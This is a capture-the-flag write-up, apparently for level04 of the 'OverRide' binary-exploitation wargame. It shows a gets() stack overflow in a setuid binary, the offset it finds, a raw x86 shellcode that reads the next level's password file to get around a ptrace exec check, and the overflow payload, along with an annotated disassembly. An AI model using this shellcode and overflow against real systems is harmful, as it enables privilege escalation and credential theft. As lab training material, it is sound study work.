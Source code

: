 # LEVEL04
**Info: level protect option**
```sh
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```
---
```sh
level04@OverRide:~$ ls -la
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
level04@OverRide:~$ ./level04 
Give me some shellcode, k
42
child is exiting...
level04@OverRide:~$ ./level04 
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
```
We can find one excutable file **level04**, who take standard input, he wants some shellcode, but do not anything. \
\
Check it with GDB,

```sh
Breakpoint 1, 0x0804875e in main ()
(gdb) p/x $eax
$2 = 0xffffd670
```

After analyzing asm code, we could find buffer overflow-able function ```gets```, but there is also a protection for the ```exec``` system call (syscall number 11). \
So we have to somehow 1. get the flag without running the ```exec``` 2. and run the exploit code. \
First let's find the offset of buffer overflow
```sh
python3 pattern_generator.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 200
Generated pattern (200 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9af0af1af2af3af4af5af6af7af8af9ag0ag1ag2ag3ag4ag5ag

Enter the hex value to find (e.g., 0x63613563): 0x61326661
Little Endian ASCII representation: 'af2a'
'af2a' found at offset: 156
```
We could've put our shell code's address at 156 offset, but since it has ```exec``` syscall inside, we are going to use another shell code which will directly give us the flag for the next level
```sh
export SHELLCODE=$'\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x86\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'
```
This machine code will try to open the file specified at the end of code and directly write it out on the ```stdout```. \
Also since we exported our shell code we have to find it's address. Let's perform it with writing simple c code ```getenv.c``` which will give us an address we need.
```sh
level04@OverRide:~$ cat /tmp/getenv.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("SHELLCODE"));
}
level04@OverRide:/tmp$ gcc -m32 /tmp/getenv.c
level04@OverRide:/tmp$ ./a.out 
0xffffd8b0
```
Note that we are running on x86_64, so we have to compile our program for 32bit to get the address in 32bit format. \
Now let's try to run our program with our exploit input.
```sh
level04@OverRide:~$ python -c 'print "B" * 156 + "\xb0\xd8\xff\xff"' | ./level04 
Give me some shellcode, k
(hidden)
child is exiting...
```
level04 passed !

assmebly analayse
---
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080486c8 <+0>:     push   %ebp
   0x080486c9 <+1>:     mov    %esp,%ebp
   0x080486cb <+3>:     push   %edi
   0x080486cc <+4>:     push   %ebx
   0x080486cd <+5>:     and    $0xfffffff0,%esp
   0x080486d0 <+8>:     sub    $0xb0,%esp # 176
   0x080486d6 <+14>:    call   0x8048550 <fork@plt>
   0x080486db <+19>:    mov    %eax,0xac(%esp) # var pid = fork()
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx # str[128] # 172 - 32 = 140 - 12 = 128
   0x080486e6 <+30>:    mov    $0x0,%eax # 0
   0x080486eb <+35>:    mov    $0x20,%edx # 32
   0x080486f0 <+40>:    mov    %ebx,%edi
   0x080486f2 <+42>:    mov    %edx,%ecx
   0x080486f4 <+44>:    rep stos %eax,%es:(%edi) # memset(str[128], 128, 0)
   0x080486f6 <+46>:    movl   $0x0,0xa8(%esp) # some variable init with 0 int a = 0
   0x08048701 <+57>:    movl   $0x0,0x1c(%esp) # some variable init with 0 int b = 0
   0x08048709 <+65>:    cmpl   $0x0,0xac(%esp) # if pid == 0
   0x08048711 <+73>:    jne    0x8048769 <main+161>
   0x08048713 <+75>:    movl   $0x1,0x4(%esp) # parent process
   0x0804871b <+83>:    movl   $0x1,(%esp)
   0x08048722 <+90>:    call   0x8048540 <prctl@plt> # prctl(PR_SET_PDEATHSIG, SIGHUP)  # https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h
   0x08048727 <+95>:    movl   $0x0,0xc(%esp)
   0x0804872f <+103>:   movl   $0x0,0x8(%esp)
   0x08048737 <+111>:   movl   $0x0,0x4(%esp)
   0x0804873f <+119>:   movl   $0x0,(%esp)
   0x08048746 <+126>:   call   0x8048570 <ptrace@plt> # ptrace(PTRACE_TRACEME, 0, 0, 0) # https://github.com/torvalds/linux/blob/master/include/uapi/linux/ptrace.h
   0x0804874b <+131>:   movl   $0x8048903,(%esp) # "Give me some shellcode, k"
   0x08048752 <+138>:   call   0x8048500 <puts@plt>
   0x08048757 <+143>:   lea    0x20(%esp),%eax # str[128]
   0x0804875b <+147>:   mov    %eax,(%esp)
   0x0804875e <+150>:   call   0x80484b0 <gets@plt> # @ vulnerability @
   0x08048763 <+155>:   jmp    0x804881a <main+338>
   0x08048768 <+160>:   nop						# loop +296
   0x08048769 <+161>:   lea    0x1c(%esp),%eax # child process
   0x0804876d <+165>:   mov    %eax,(%esp) # var
   0x08048770 <+168>:   call   0x80484f0 <wait@plt> # wait(b)
   0x08048775 <+173>:   mov    0x1c(%esp),%eax
   0x08048779 <+177>:   mov    %eax,0xa0(%esp) # var
   0x08048780 <+184>:   mov    0xa0(%esp),%eax
   0x08048787 <+191>:   and    $0x7f,%eax # 0111_1111
   0x0804878a <+194>:   test   %eax,%eax # if 0
   0x0804878c <+196>:   je     0x80487ac <main+228>
   0x0804878e <+198>:   mov    0x1c(%esp),%eax
   0x08048792 <+202>:   mov    %eax,0xa4(%esp)
   0x08048799 <+209>:   mov    0xa4(%esp),%eax
   0x080487a0 <+216>:   and    $0x7f,%eax
   0x080487a3 <+219>:   add    $0x1,%eax
   0x080487a6 <+222>:   sar    %al # or its synonym shl # https://docs.oracle.com/cd/E19455-01/806-3773/instructionset-27/index.html
   0x080487a8 <+224>:   test   %al,%al
   0x080487aa <+226>:   jle    0x80487ba <main+242> # if (((b & 0x7f) != 0 && (((b & 0x7f) + 1) >> 1) <= 0))
   0x080487ac <+228>:   movl   $0x804891d,(%esp) # "child is exiting..."
   0x080487b3 <+235>:   call   0x8048500 <puts@plt>
   0x080487b8 <+240>:   jmp    0x804881a <main+338> # return (0)
   0x080487ba <+242>:   movl   $0x0,0xc(%esp) # 0
   0x080487c2 <+250>:   movl   $0x2c,0x8(%esp) # 44
   0x080487ca <+258>:   mov    0xac(%esp),%eax # var pid
   0x080487d1 <+265>:   mov    %eax,0x4(%esp)
   0x080487d5 <+269>:   movl   $0x3,(%esp)
   0x080487dc <+276>:   call   0x8048570 <ptrace@plt> # ptrace(3, pid, 44, 0)
   0x080487e1 <+281>:   mov    %eax,0xa8(%esp) # return of ptrace
   0x080487e8 <+288>:   cmpl   $0xb,0xa8(%esp) # if (ptrace(PTRACE_PEEKUSER, pid, 44, 0) == 11)
   0x080487f0 <+296>:   jne    0x8048768 <main+160>
   0x080487f6 <+302>:   movl   $0x8048931,(%esp) # "no exec() for you"
   0x080487fd <+309>:   call   0x8048500 <puts@plt>
   0x08048802 <+314>:   movl   $0x9,0x4(%esp) # 9
   0x0804880a <+322>:   mov    0xac(%esp),%eax # var pid
   0x08048811 <+329>:   mov    %eax,(%esp)
   0x08048814 <+332>:   call   0x8048520 <kill@plt> # kill(pid, 9) # SIG_KILL
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret    
End of assembler dump.
```